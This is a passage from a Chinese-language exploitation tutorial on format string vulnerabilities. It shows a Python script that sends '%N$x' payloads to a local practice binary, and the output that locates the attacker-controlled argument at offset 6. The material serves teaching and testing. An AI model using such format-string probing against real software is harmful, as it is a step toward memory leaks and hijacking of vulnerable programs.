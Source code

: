 得到指针的数值为0x400730+8 = 0x400738

2. 定位参数位置，这里手写一个自动测试的脚本

```python
#!/usr/bin/python2
#coding: utf8
"""
from pwn import *
def auto(input):
    p = process("./format_test")
    p.sendline(input)
    return p.recv()
"""
#在没有pwntools的时候
import subprocess
from subprocess import PIPE

def auto(input):
    p = subprocess.Popen("./format_test", stdin=PIPE, stdout=PIPE)
    return p.communicate(input)[0]

for i in range(0, 20):
    payload  = 'AAAASTART%%%d$xEND' % i #一次读四个字节
    response = auto(payload)

    print "send:", payload
    print "recv:", auto(payload)
    if response.find("AAAASTART41414141END") != -1:
        print "found at offset: ", i
        break
```

```shell
$ python fuzz.py
send: AAAASTART%0$xEND
recv: AAAASTART%0$xEND
send: AAAASTART%1$xEND
recv: AAAASTARTf831c8b0END
send: AAAASTART%2$xEND
recv: AAAASTART63END
send: AAAASTART%3$xEND
recv: AAAASTART37bEND
send: AAAASTART%4$xEND
recv: AAAASTART400720END
send: AAAASTART%5$xEND
recv: AAAASTARTe3210ac0END
send: AAAASTART%6$xEND
recv: AAAASTART41414141END
found at offset:  6
```

传入的字符串被作为第六个参数
